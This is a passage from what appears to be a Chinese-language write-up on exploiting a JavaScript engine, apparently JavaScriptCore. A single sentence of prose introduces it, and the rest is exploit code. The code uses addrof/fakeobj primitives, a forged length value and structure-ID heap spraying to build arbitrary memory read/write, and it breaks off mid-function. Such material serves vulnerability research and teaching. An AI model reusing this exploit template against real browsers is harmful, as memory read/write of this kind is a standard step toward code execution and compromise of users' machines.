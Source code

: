 addof、fakeobj之后，构造全局读写还是比较简单的，基本有模版可参考：

```javascript
let BASE32 = 0x100000000;
function fu(f) {
    f64[0] = f;
    return i32[0] + BASE32 * i32[1];
}
function uf(i) {
    i32[0] = i % BASE32;
    i32[1] = i / BASE32;
    return f64[0];
}


let conversionBuffer = new ArrayBuffer(8);
let f64 = new Float64Array(conversionBuffer);
let i32 = new Uint32Array(conversionBuffer);

i32[0] = 0x0fffffff;
i32[1] = 0x0fffffff - 0x10000;

let pvLength = f64[0];  //0x0fffffff0fffffff adjacent public/vector length.

let structureIDSprayArray = [];
function sprayRWProxy() {
    for (let i = 0; i < 0x1000; i++) {
        let o = { a: 0xa, b: 0xb, c: pvLength };
        o[0] = 0.1;
        o[1] = 1.1;
        o['outOfLineProperty_' + i.toString(16)] = 2.1;
        //print(describe(o));
        //dbg(0);
        structureIDSprayArray.push(o); //structureID capacity would be above 0x1000;
        if (i == 0xfff) {
            return o;
        }
    }
}
let rwProxy = sprayRWProxy();//rwProxy is NonArrayWithDouble
rwProxy.outOfLineProperty_fff;

function sprayUnboxedArray() {
    for (let i = 0x1000; i < 0x2000; i++) {
        let o = { a: 0xa, b: 0xb, c: 0xc };
        o[0] = 13.37;
        o[1] = 13.37;
        o['outOfLineProperty' + i] = 2.1;
        //print(describe(o));
        //dbg(0);
        structureIDSprayArray.push(o); //structureID capacity would be above 0x2000;
        if (i == 0x1fff) {
            return o;
        }
    }
}
let unboxedArray = sprayUnboxedArray();//boxedArray is NonArrayWithDouble

function sprayBoxedArray() {
    for (let i = 0x2000; i < 0x3000; i++) {
        let o = { a: 0xa, b: 0xb, c: 0xc };
        o[0] = {};
        o[1] = 13.37;
        o['outOfLineProperty' + i] = 2.1;
```